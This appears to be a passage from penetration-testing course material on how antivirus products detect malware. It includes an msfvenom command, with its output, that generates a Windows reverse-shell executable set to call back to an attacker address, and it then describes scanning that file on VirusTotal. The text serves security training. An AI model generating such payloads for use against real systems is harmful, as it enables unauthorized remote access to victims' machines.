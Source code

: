 Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![Figure 1: Virustotal results on the msfvenom payload.](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png)

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.

In this Learning Unit, we have explored the different components that constitute a modern AV and covered the various strategies adopted to detect malicious software.

In the next Learning Unit, we are going to make use of this knowledge and learn the different mechanisms that enable attackers to evade antivirus detections.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Antivirus Evasion - AV Components and Operations - VM #1

#### Labs
